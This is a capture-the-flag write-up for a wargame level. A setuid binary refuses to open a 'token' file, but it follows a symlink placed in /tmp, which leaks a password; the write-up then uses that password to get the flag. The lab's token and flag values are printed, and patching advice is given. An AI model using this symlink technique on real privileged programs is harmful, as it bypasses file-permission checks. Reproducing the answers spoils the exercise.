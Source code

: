 ## level08

- **How we found it**

	Noticed `level08` prompts for a filename and refuses access to `~/token`:

	```bash
	./level08 token
	# You may not access 'token'
	```

- **How we exploited it**

	**1.** Create a writable symlink to the protected token file in /tmp:

	```bash
	ln -sf ~/token /tmp/test
	```

	**2.** Supply the symlink to the binary:

	```bash
	./level08 /tmp/test
	# quif5eloekouj29ke0vouxean
	```

	The output is the password for flag08.

	**3.** Switch user and retrieve the flag:

	```bash
	su flag08
	# Password: quif5eloekouj29ke0vouxean
	getflag
	# Check flag. Here is your token: 25749xKZ8L7DkSCwJkT9dyv6f
	```

- **Utility of this exercise**

Illustrates how following symbolic links in privileged programs can bypass file‑permission checks.

- **How to patch**

	- Disable following symlinks when opening files: use `open(..., O_NOFOLLOW)`.

	- Canonicalize and verify the target path (e.g., `realpath`) before opening.

	- Drop elevated privileges before handling user-supplied paths, or remove the setuid bit if unnecessary.

	- Restrict file access by checking ownership and permissions after `fstat` on the opened descriptor.